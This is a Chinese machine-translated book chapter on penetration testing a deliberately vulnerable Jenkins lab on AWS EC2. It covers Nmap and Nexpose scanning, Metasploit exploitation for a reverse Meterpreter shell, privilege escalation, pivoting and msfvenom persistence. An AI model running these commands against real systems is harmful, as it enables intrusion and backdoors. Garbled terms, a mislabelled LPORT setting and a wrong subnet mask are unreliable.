# 使用 Kali Linux 对 EC2 实例进行渗透测试

在[第 3 章](03.html)*中，我们学习了如何在 AWS 上运行的易受攻击的机器上执行渗透测试，该机器使用 Kali Linux*在云上进行攻击。本章旨在帮助读者为高级渗透测试和更真实的场景建立一个易受攻击的实验室。本实验室将深入了解 DevOps 工程师在**持续集成和持续交付**（**CI/CD**管道中常见的安全错误配置。

本章重点介绍在 Linux**虚拟机**（**虚拟机**）上设置易受攻击的 Jenkins 安装，然后使用[第 3 章](03.html)、*使用 Kali Linux*在云上利用漏洞进行渗透测试。此外，我们还将了解更多用于扫描和信息收集的技术，以帮助我们进行渗透测试。最后，一旦我们破坏了我们的目标，我们将学习一些技术来转移和访问云中的内部网络。

在本章中，我们将介绍以下内容：

*   在虚拟实验室中设置易受攻击的 Jenkins 服务器
*   配置和保护虚拟实验室以防止意外访问
*   在易受攻击的机器上执行渗透测试并学习更多扫描技术
*   损害我们的目标，然后执行剥削后活动

# 技术要求

本章将使用以下工具：

*   Nexpose（需要手动安装）
*   Nmap
*   变质岩
*   詹金斯

# 在 Windows 上安装易受攻击的服务

Jenkins 是 DevOps 环境中 CI/CD 管道的一个非常重要的组件，主要用作自动化服务器。Jenkins 的主要任务是在软件开发过程中提供持续集成并促进持续交付。Jenkins 可以与 GitHub 等版本管理系统集成。在一个典型的场景中，Jenkins 会获取上传到 GitHub 的代码，构建它，然后将其部署到生产环境中。有关詹金斯的更多信息，请参见[https://www.cloudbees.com/jenkins/about.](https://www.cloudbees.com/jenkins/about)

Jenkins 提供了在其构建控制台中提供自定义构建命令和参数的选项。这些命令直接发送到**操作系统**（**操作系统**的外壳。在这种情况下，我们可以向构建命令中注入恶意代码，以破坏运行 Jenkins 的服务器，从而访问目标网络。

我们将从启动 Windows Server 2008 实例开始（您可以选择任何层；但是，免费层应该足够了）。对于本教程，默认存储空间就足够了。让 EC2 实例加速运行。

我们将配置实例使其易受攻击。因此，在传入/传出规则部分，确保只有端口`3389`对外部网络开放。此外，为了确保我们的 Kali 机器能够访问 Jenkins 服务器，允许从您的 Kali 机器的 IP 和其他任何地方进行传入连接。

Jenkins 机器的防火墙规则应如下所示：


詹金斯机器的防火墙规则

在这里，所有通信都只允许来自 Kali 机器的安全组。这只是一个安全措施，以确保没有其他人可以访问我们脆弱的詹金斯机器。

一旦实例启动，就应该在目标机器上设置易受攻击的 Jenkins 服务。将 RDP 导入您刚刚创建的机器中，并按照以下步骤操作：

1.  从[下载 Jenkins 安装包 http://mirrors.jenkins.io/windows/latest](http://mirrors.jenkins.io/windows/latest) ：

2.  只需双击 Jenkins 安装文件。按照屏幕上的说明操作：


安装詹金斯

3.  保留默认安装位置，然后单击下一步：



目标文件夹

4.  最后，单击安装：



安装完成后，浏览器将自动打开并提示您配置 Jenkins 安装：


在安装过程中，Jenkins 安装程序会创建一个初始的 32 个字符长的字母数字密码。

5.  打开位于`C:\Program Files (x86)\Jenkins\secrets\`的`initialAdminPassword`文件：



6.  复制文件中的密码，将其粘贴到管理员密码字段中，然后单击继续：


在下一个屏幕上，安装向导将询问您是要安装建议的插件还是选择特定的插件。

7.  单击“安装建议的插件”框，安装过程将立即开始：



插件安装完成后，系统将提示您设置第一个`admin`用户。

8.  为了使其成为易受攻击的实例，我们正在使用用户名`admin`和密码`admin`设置帐户。填写所有其他必需信息，然后单击保存并继续：


我们希望我们的 Jenkins 服务在`Local Area Connection`**界面上可用。**

 **9.  使用命令提示符中的`ipconfig`命令查找 Windows Server 2008 EC2 实例的 IP 地址：



10.  在配置 URL 时，注意 IPv4 地址并在 Jenkins 配置页面上填写 IP：



11.  单击保存并完成，然后单击开始使用 Jenkins。此时，您已在系统上成功安装 Jenkins。登录后，您将被重定向到 Jenkins 仪表板。

要测试是否可以从 Kali 机器访问 Jenkins 登录，请执行以下操作：

1.  使用 PuTTY 创建到 Kali 机器的 SSH 隧道
2.  端口转发本地端口`8080`到詹金斯机器的端口`8080`：


3.  打开浏览器并指向`http://localhost:8080`

您将看到詹金斯登录页面。这意味着我们的 Jenkins 机器可以从 Kali 机器访问。

# 在易受攻击的 Jenkins 机器后面设置目标机器

为了模拟一台位于内部网络或另一个子网中的机器，我们将设置一台 Ubuntu 机器，并使其只能从 Jenkins 服务器访问。

为了使我们的网络最终看起来像什么，请参考下图：



我们已经安装了我们的**AWS 詹金斯机器**；现在，我们只需要设置内部机器并将其与**AWS 卡利机器**隔离。

让我们看看如何做到这一点：

1.  创建一个 Ubuntu EC2 实例
2.  在安全组设置中，编辑入站规则并仅允许来自 Jenkins 计算机的安全 ID 的所有通信

确保所有人都可以访问 SSH 端口，以便您可以在需要时登录到实例：



最后，我们的网络已经建立。网络看起来和我们想象的一模一样。在下一节中，我们将安装 Nexpose 进行漏洞扫描。

# 在 Kali 机器上设置 Nexpose 漏洞扫描程序

在[第三章](03.html)*使用 Kali Linux*在云上进行的攻击中，我们看到了如何在我们的 Kali 实例上远程设置 Nessus。远程设置 Nexpose 是相同的。为什么除了 Nessus 我们还需要 Nexpose？自动漏洞扫描程序通过匹配服务版本号和操作系统签名来识别漏洞。然而，这有时可能导致误报，或者更糟的是，误报。为了反复检查并获得更全面的漏洞评估结果，最好使用多个漏洞扫描程序：

1.  从访问[开始 https://www.rapi](https://www.rapid7.com/products/insightvm/download/) [d7.com/products/insightvm/download/](https://www.rapid7.com/products/insightvm/download/)[并注册许可证。许可证将发送到您提供的电子邮件地址。](https://www.rapid7.com/products/insightvm/download/)

2.  Nexpose 安装程序可从[下载 https://www.rapid7.com/products/insightvm/download/thank-you/](https://www.rapid7.com/products/insightvm/download/thank-you/) 。

3.  我们将下载 Linux 64 位安装程序。您可以将其下载到您的机器上，然后通过 SCP 进行传输，就像我们在[第 3 章](03.html)中使用 Kali Linux 在云上进行*攻击一样，或者您可以从 Kali 实例的终端进行`wget`操作，如下所示：*

```
wget http://download2.rapid7.com/download/InsightVM/Rapid7Setup-Linux64.bin
```

4.  我们收到的文件是一个 POSIX shell 脚本可执行文件。我们需要授予它执行权限，然后运行它。只需以`sudo`的形式运行以下命令：

```
chmod +x Rapid7Setup-Linux64.bin
./Rapid7Setup-Linux64.bin
```

按照屏幕上的说明操作。当系统提示您安装哪些组件时，请确保您选择了带有本地扫描引擎的 Security Console[1，输入]。将其余配置保留为默认配置。

在安装程序提示时输入您的详细信息，并确保为您的帐户设置了凭据：


最后，为了能够登录到安全控制台，我们需要创建一个带有用户名和密码的概要文件。当终端提示时，输入用户名和密码。至此，安装将完成：


您可以选择在安装后立即初始化和启动服务。或者，您可以稍后使用以下命令手动执行此操作：

```
sudo systemctl start nexposeconsole.service
```

安装完成后，在 Kali 机器上设置一个从本地端口`3780`到端口`3780`的 SSH 端口，并将浏览器指向端口`localhost:3780`。您将看到登录页面。

登录，然后在下一页输入许可证密钥：


一旦它被激活，我们就可以继续扫描了。

# 使用 Nmap 进行扫描和侦察

在本节中，我们将研究扫描子网，并使用 Nmap 执行网络侦察。Nmap 是瑞士军刀，用于侦察、发现和识别网络中的主机和服务。在我们进入并运行扫描之前，让我们看看 NMAP 是如何工作的。

在发现网络中的活动主机时，Ping 扫描非常方便。这种类型的扫描包括向网络中的每台主机发送**ICMP 回送****请求**，然后根据响应确定哪些主机是活动的：


从该图中，我们可以看到一些主机使用**ICMP 回显回复**进行响应，而一些主机没有。根据回复的主机，我们可以确定哪些主机处于活动状态。

在 ping 扫描扫描中，我们为 Nmap 提供一个网络范围，通常是一个网络地址及其子网（CIDR 形式）。我们的 AWS 机器托管在 AWS 的默认子网中。子网被指定为`172.31.0.0/20`。这意味着网络地址为`172.31.0.0`且`20`为 CIDR 值。换言之，网络的子网掩码为`255.255.255.240`，可以容纳总共`4094`个 IP 地址

让我们继续在网络中执行 ping 扫描。为此，我们将使用`nmap`的`-sn`标志。`-sn`标志指示`nmap`执行 ping 扫描，`172.31.0.0/20`输入告知`nmap`这是一个网络范围。SSH 连接到 Kali 机器并发出以下命令：

```
sudo nmap -sn 172.31.0.0/20

```

上述命令的输出如下所示：



从输出中，我们可以看到`nmap`已经识别了五个活着的主机。不包括`172.31.0.1`和`172.31.0.2`地址，我们可以看到网络中有三台主机处于活动状态：我们的 Kali 机器、易受攻击的 Windows 机器和 Ubuntu 机器。

接下来，我们将学习如何扫描打开的端口并识别特定主机上的服务。

# 使用 Nmap 识别开放端口和服务并对其进行指纹识别

从上一节继续，我们现在将扫描主机以查找打开的端口，然后尝试识别在我们的目标上运行的服务。对于本练习，我们将使用 Nmap**SYN**scan`-sS`标志。这是默认的和最常用的扫描技术。为什么？这是因为扫描速度快，而且可以在不受防火墙阻碍的情况下执行。扫描也是隐蔽的，因为它没有完成 TCP 握手。扫描可以在打开、关闭和过滤端口之间产生清晰、准确的结果。那么这个扫描是如何工作的呢？让我们看一看。

**SYN**扫描使用半开放的 TCP 连接来确定端口是打开还是关闭。**SYN**扫描过程可通过下图可视化：


每次端口扫描从 Nmap 向指定端口发送**SYN**数据包开始。如果端口打开，目标将以**SYN-ACK**数据包作为响应进行响应。然后，Nmap 会将端口标记为打开，然后通过发送**RST**数据包立即关闭连接。

在关闭端口的情况下，当 Nmap 发送**SYN**包时，目标用**RST**包响应；然后，Nmap 会将端口标记为关闭，如下图所示：


当 Nmap 向端口发送**SYN**数据包且未收到任何响应时，它将执行重试。如果仍然没有响应，则将端口标记为已过滤；也就是说，它受到防火墙的保护。端口标记为过滤的另一种情况是，如果 Nmap 接收到 ICMP 不可访问错误，而不是没有响应：


1.  让我们先在詹金斯机器上做一个简单的`nmap`扫描。发出以下命令：

```
sudo nmap 172.31.10.227
```


正如我们所看到的，我们看到了`nmap`发现打开的端口列表。但是，我们只扫描了端口的默认列表。这样就省去了许多尚未检查的端口。识别所有打开的端口至关重要，因此让我们看看还有哪些端口打开。

2.  发出以下命令：

```
sudo nmap -T4 -p- 172.31.10.227
```

`-T4`用于多线程，以稍微加快速度。`-p-`标志告诉`nmap`扫描所有`65535`端口。您可以选择添加`-v`标志，使输出更加详细，并打印出有关目标的更多信息：



正如我们所看到的，我们在之前的扫描中遗漏了一个打开的端口，`5985/tcp`端口。这说明了扫描所有`65535`端口以查找打开的端口的重要性。

我们的下一步是确定哪些服务正在这些开放端口上运行。那么 Nmap 如何识别这些端口上运行的服务呢？Nmap 执行完整的 TCP 握手，然后等待端口上运行的服务返回其服务标题。Nmap 有自己的探测数据库来查询服务并匹配响应以解析正在运行的服务。然后，Nmap 将根据收到的信息尝试识别协议、服务和底层操作系统。

下图说明了握手和数据交换是如何进行的：


3.  下一步是识别这些端口上运行的所有服务。发出以下命令：

```
sudo nmap -v -p 135,139,445,3389,5985,8080,49154 -sV 172.31.10.227
```

在这个命令中，我们指定扫描端口`135`、`139`、`445`、`3389`、`5985`、`8080`和`49154`，因为它们是唯一打开的端口。我们可以使用`-p`参数指定要扫描的任何特定端口或端口范围：


Nmap 从扫描结果中打印出一组信息。我们可以看到，所有打开的端口都已被扫描，以查找正在运行的服务。其中，我们对 2 个端口感兴趣。注意端口`445/tcp`-Nmap 已将该服务标识为 SMB，并将目标计算机标识为运行 Windows server 2008 R2 或 2012 的服务器。为了确定我们的目标运行的是什么操作系统，并据此规划我们的下一步，这一点至关重要。

操作系统也可以通过使用`-O`标志来确定。Nmap 可以通过从服务接收的响应、使用 CPE 指纹或通过分析网络数据包来识别目标操作系统来识别操作系统。

# 使用 Nexpose 执行自动漏洞评估

在之前的*在 Kali 机器*部分**中，我们了解了如何在 Kali 攻击者机器上设置 Nexpose 漏洞扫描程序。在本节中，我们将了解如何使用 Nexpose 在目标机器上执行自动漏洞扫描**

 **但首先，Nexpose 如何识别目标中的漏洞？

这个想法与 Nmap 在服务发现期间所做的非常相似。然而，Nexpose 的工作范围比仅仅识别在特定端口上运行的服务要大得多。整个过程可概括如下：

1.  **主机发现**：Nexpose 发送 ICMP 数据包以识别主机是否处于活动状态。根据响应，目标被标记为活动。
2.  **端口扫描**：一旦确认主机处于活动状态，Nexpose 将发送大量 TCP 数据包，以识别正在侦听 TCP 的开放端口。同时，它发送 UDP 通信以识别仅侦听 UDP 的端口。Nexpose 可以向所有端口发送流量，也可以向扫描模板中预定义的端口列表发送流量。分析扫描响应和网络数据包，以确定目标上运行的操作系统类型。

3.  **服务发现**：Nexpose 然后与 TCP 和 UDP 上打开的端口交互，以识别正在运行的服务。
4.  **操作系统指纹**：分析来自端口和服务扫描的数据，以识别目标系统的操作系统。这并不总是非常准确，因此 Nexpose 使用评分系统来表示扫描结果的确定程度。
5.  **漏洞检查**：最后，对已识别的服务进行未确认和已确认的漏洞扫描。要检查任何未确认的漏洞，Nexpose 会从服务横幅中识别修补程序和版本。然后将该信息与可能影响该软件特定版本的任何已知漏洞进行匹配。例如，如果 Nexpose 发现 Apache HTTP 2.4.1 正在目标的端口 80 上运行，Apache 将获取此信息并交叉引用其漏洞数据库，以确定版本 2.4.1 是否存在任何已知漏洞。在此基础上，它将列出分配给该特定漏洞的**常见漏洞和风险**（**CVE**）列表。但是，这些漏洞尚未确认，因此需要手动测试以确认漏洞是否存在。另一方面，已确认的漏洞类似于带有默认密码的某些软件。然后，Nexpose 将检查软件是否使用默认密码运行，尝试登录，只有在登录成功时才将其作为漏洞报告。
6.  **暴力攻击**：Nexpose 的扫描模板默认设置为测试 SSH、Telnet 和 FTP 等服务的默认用户名和密码组合，如`'admin':'admin'`或`'cisco':'cisco'`。任何此类发现都将添加到报告中。
7.  **策略检查**：作为额外奖励，Nexpose 检查目标机器的配置，以验证它们是否符合基线，如 PCI DSS、HIPAA 等。
8.  **报告**：最后，所有的调查结果都被放入一份报告并显示在屏幕上。

为了总结整个流程，以下是流程的瀑布模型：


Nexpose 可以选择性地配置为执行 web 扫描、发现 web 服务、检查 SQLi 和 XSS 等漏洞以及执行 web 爬网。

让我们开始扫描目标服务器：

1.  创建到 Kali 机器的 SSH 隧道，本地端口`3780`转发到 Kali 机器上的端口`3780`
2.  如果 Nexpose 服务未运行，可以通过发出以下命令来启动它：

```
sudo systemctl start nexposeconsole.service
```

3.  将浏览器指向`https://localhost:3780`

初始化完成后，Nexpose 主屏幕将对我们表示欢迎：

1.  在这里，我们需要单击 createnewsite，在我们之前设置的 Jenkins 目标上开始新的扫描。为站点提供您想要的任何名称：


2.  现在添加您的目标 IP 地址。目标 IP 地址可以是一系列 IP、用逗号分隔的单个 IP，也可以是具有 CIDR 值的整个子网：



3.  将扫描类型设置为彻底。有多种扫描类型可用。我们正在使用穷举扫描，以便 Nexpose 检查所有端口以查找任何打开的端口，包括 TCP 和 UDP。每个单独的扫描类型都可以用于给定的用例。例如，**发现扫描**只能用于发现网络中的主机，而**HIPAA****合规性**只会检查目标的配置和策略，看它们是否与 HIPAA 基线一致。启动扫描，等待扫描完成：


正如 Nessus 在[第 3 章](03.html)*中使用 Kali Linux*在云上进行开发一样，Nexpose 提供了一系列信息，包括在我们的目标上运行的服务：


我们还发现了它发现的一些漏洞：


然而，它未能检测到我们易受攻击的 Jenkins 服务。通常，Jenkins 服务必须强制查找一组有效的凭据。但是，我们冒昧地假设我们已经拥有登录凭据。在下一节中，我们将了解如何利用这种易受攻击的服务并拥有目标服务器。

# 使用 Metasploit 进行自动利用

在本演示中，我们将使用 Metasploit 利用 Jenkins 服务器并在其上获得一个 MeterMeter 外壳。Jenkins 有自己的脚本控制台，用户可以在其中键入并运行任意代码。如果用户的凭据被盗，这是危险的，因为任何人都可以使用脚本控制台运行任意代码。我们将使用的 Metasploit 模块利用了这一点，并尝试运行将创建到远程机器的连接的代码。

让我们看看如何利用该漏洞：

1.  通过发出以下命令，将 SSH 连接到 Kali 机器并加载 Metasploit 框架：

```
msfconsole
```

2.  接下来，我们将在 Metasploit 中搜索与 Jenkins 相关的任何漏洞：

```
search jenkins
```

上述命令的输出如下所示：


我们将看到一些与 Jenkins 相关的模块。

3.  我们将在本例中使用`jenkins_script_console`漏洞。发出以下命令：

```
use exploit/multi/http/jenkins_script_console
```

4.  让我们设置漏洞攻击并配置目标服务器。逐个发出以下命令：

```
set RHOSTS <<IP Address>>
set RPORT 8080
set USERNAME admin
set PASSWORD admin
set TARGETURI /
set target 0
```

`target 0`表示这是一台 Windows 机器。

5.  要查看所有可用有效载荷的列表，请发出以下命令：

```
show payloads
```

将列出所有有效载荷的列表供我们阅读：


6.  我们将使用反向 TCP 负载进行此攻击。因为我们的 Windows 机器是 64 位的，所以我们将选择要交付的 64 位有效负载。接下来，将您的`LHOST`设置为您的 Kali IP 地址：

```
set payload windows/x64/meterpreter/reverse_tcp
set LPORT <<Kali IP Address>>
```

完成后，您可以发出`show options`命令，检查是否已填写所有需要的数据：



7.  现在，只需运行漏洞攻击。您将进入一个流量计外壳：


我们已经成功地获得了对目标机器的 shell 访问权限。在下一节中，我们将看到如何执行权限提升和旋转，以及如何使后门持久化。

# 使用 MeterMeter 进行权限提升、数据透视和持久化

现在是我们练习的第二阶段。一旦有了 MeterMeter 外壳，我们将尝试执行权限升级，并在此目标服务器上获得尽可能高的权限。

但首先，让我们进一步了解我们的目标服务器。运行以下命令：

```
sysinfo
```

上述命令的输出如下所示：


我们将看到一系列信息，例如这台机器正在运行的 Windows 版本、域等。

执行权限升级时，发出以下命令：

```
getsystem
```

如果成功，您通常会得到如下响应：

```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin))
```

这意味着我们的权限升级成功。为了验证这一点，我们可以发出以下命令：

```
getuid
```

如果我们是最高权限的用户，我们应该得到响应`Server username: NT AUTHORITY\SYSTEM`。

现在我们已经完全拥有了服务器，让我们开始在内部网络上寻找机器。为此，我们将旋转我们的 MeterMeter 会话，并从我们的 Kali 机器创建到内部网络的网桥：

1.  首先，将您的仪表外壳接地：

```
background
```

2.  添加`target`和`session`ID 的路由：

```
route add <<target ip>> <<subnet mask>> <<meterpreter session>>

```

3.  下一步，为了验证是否已旋转，我们将尝试使用 Metasploit 在隐藏的 Ubuntu 机器上执行端口扫描：

```
use auxiliary/scanner/portscan/tcp
set RHOSTS <<Ubuntu IP address>>
run
```

上述命令的输出如下所示：


从扫描结果中，我们可以看到有许多端口打开。这意味着我们已经成功地将受损的机器旋转。我们可以得出这样的结论，因为只有端口`22`（SSH）被公开；任何其他机器的扫描只会显示端口`22`打开。一旦旋转成功，我们就可以通过受损的 Windows 机器在内部网络中执行大量攻击。

现在是本练习的最后一段，我们如何确保持久访问受损机器？我们可以使用后期开发模块来实现这一点。首先，我们需要创建一个恶意的`.exe`文件，该文件将连接回我们的 Kali 机器。为此，我们将使用 Metasploit 套件中另一个名为`msfvenom`的工具：

1.  如果您在 MeterMeter 会话中，请将其置于后台，并发出以下命令：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali ip> LPORT=4444 -f exe -o /tmp/evil.exe
```

使用`msfvenom`，我们创建了一个`exe`文件，现在需要将其传输到受害者机器。

2.  返回 MeterMeter 会话并发出以下命令：

```
run post/windows/manage/persistence_exe REXEPATH=/tmp/evil.exe REXENAME=default.exe STARTUP=USER LocalExePath=C:\\tmp
```

上述命令的输出如下所示：


让我们检查一下我们的坚持是否有效。要验证这一点，请从 MeterMeter 会话中重新启动目标服务器并退出 MeterMeter 会话。从 MeterMeter 会话发出以下命令：

```
reboot
```

通过运行`exit`命令退出 MeterMeter 会话。

现在，我们设置 Metasploit 来侦听传入的连接。逐个发出以下命令：

```
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <<Kali IP Address>>
set LPORT 4444
run
```

我们从目标服务器获得一个新的传入连接：


因此，我们成功地创建了一个到受损服务器的后门，并创建了持久访问。我们的练习到此结束。这种持久访问现在可以用于横向移动，并允许我们破坏网络中的其他机器。

# 总结

本章向您介绍了如何设置易受攻击的 EC2 环境，模拟受限网络，然后对其执行渗透测试。我们了解了如何以易受攻击的方式配置 Jenkins 服务器。随后，我们学习了如何设置 Nexpose 漏洞扫描程序，然后在易受攻击的 Jenkins 服务器上执行漏洞扫描。此外，我们还学习了如何使用 Metasploit 执行 Jenkins 的自动利用，以及如何使用 MeterMeter 有效负载来旋转主机并在受限网络内执行横向移动。

这就到了第五章的结尾。在下一章中，我们将学习 EBS 卷、磁盘加密和卷快照。此外，我们将学习如何执行法医分析，并从 EBS 卷中恢复丢失的数据。

# 进一步阅读

*   [https://www.packtpub.com/networking-and-servers/mastering-metasploit](https://www.packtpub.com/networking-and-servers/mastering-metasploit)
*   [https://nexpose.help.rapid7.com/docs/security-console-quick-start-guide](https://nexpose.help.rapid7.com/docs/security-console-quick-start-guide)
*   [https://jenkins.io/doc/tutorials/](https://jenkins.io/doc/tutorials/)****